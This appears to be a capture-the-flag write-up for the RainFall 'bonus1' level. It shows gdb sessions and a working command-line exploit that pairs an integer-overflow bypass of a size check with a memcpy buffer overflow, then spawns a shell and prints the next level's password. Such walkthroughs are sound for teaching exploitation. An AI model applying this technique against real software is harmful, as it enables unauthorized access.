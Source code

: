 # bonus01

The progam wait for..

To solve this challenge, two steps need to be done:

- The first parameter must be lower than 9. It will be multiplied by 4 and will be the 3th parameter of `memcpy`.

- The next step is to overwrite value at address `0xbffff6fc`, the value of the `atoi` return that is compared with `0x574f4c46` and open a shell if true.

Afin de resoudre ce challenge il y a deux etapes a passer:  

La premiere consiste a ecrire un nombre qui doit etre plus petit ou egale '9', qui sera ensuite multiplier par 4 et sera le troisieme argument de memcpy().  
  
Le deuxieme etape consiste a ecraser l adresse 0xbffff6fc qui devra avoir pour valeur 0x574f4c46, nous pouvons voir que cette adresse est le premiere argument de la fonction memcpy()+40 et le deuxieme argument de memcpy est argv[2].

To overvwrite the value of address `0xbffff6fc`, we calculate the length of bytes from the beginning of the buffer that is in the `memcpy` function call:

```bash
=> 0x08048473 <+79>:    call   0x8048320 <memcpy@plt>  
(gdb) x/wx $esp  
0xbffff6c0:     0xbffff6d4  
(gdb) x/wx $esp+0x3c  
0xbffff6fc:     0xc000000c  
(gdb) p/d 0xbffff6fc-0xbffff6d4  
$45 = 40  
```

We need to write from the 40th bytes of the buffer to overwrite the variable value. But the condition that prevent the first parameter to be greater that 9 is blocking us here. We can write a maximum of 36 bytes (4 * 9).

By putting a breakpoint after the multiplication of the `atoi` return, we can see that passing negative value give us some useful information:

```bash
(gdb) r -1 AAAA
Starting program: /home/user/bonus1/bonus1 -1 AAAA

Breakpoint 1, 0x0804845a in main ()
(gdb) i r 
eax            0xffffffff       -1
ecx            0xfffffffc       -4
edx            0x1      1
(gdb) r -2 AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus1/bonus1 -2 AAAA

Breakpoint 1, 0x0804845a in main ()
(gdb) i r 
eax            0xfffffffe       -2
ecx            0xfffffff8       -8
```

We can found the correct value by two distinct method:

- we can first substract 43 from `0xffffffff` and then divide it by 4 to get our number to pass as first parameter:

```bash
(gdb) p/d (0xffffffff-43)
$33 = 4294967252
(gdb) p/d (0xffffffff-43)/4
$34 = 1073741813  
(gdb) r -1073741813 AAAA
The program being debugged has been started already.
Starting program: /home/user/bonus1/bonus1 -1073741813 AAAA

Breakpoint 1, 0x0804845a in main ()
(gdb) i r
eax            0xc000000b       -1073741813
ecx            0x2c     44
```

- we also observed that if the first paramter is the minimun int, the result of the multiplication will be 0. By substracting it 11, we can get our number:

```bash
(gdb) r -2147483648 AAAA
The program being debugged has been started already.
Starting program: /home/user/bonus1/bonus1 -2147483648 AAAA

Breakpoint 1, 0x0804845a in main ()
(gdb) i r
eax            0x80000000       -2147483648
ecx            0x0      0
(gdb) r -2147483637 aaaa
The program being debugged has been started already.
Starting program: /home/user/bonus1/bonus1 -2147483637 aaaa

Breakpoint 1, 0x0804845a in main ()
(gdb) i r
eax            0x8000000b       -2147483637
ecx            0x2c     44
```

We can now try to exploit the program:

```bash
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
$ whoami
bonus2
$ cd /home/user/bonus2
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

or:

```bash
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
$ whoami
bonus2
$ cd /home/user/bonus2
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
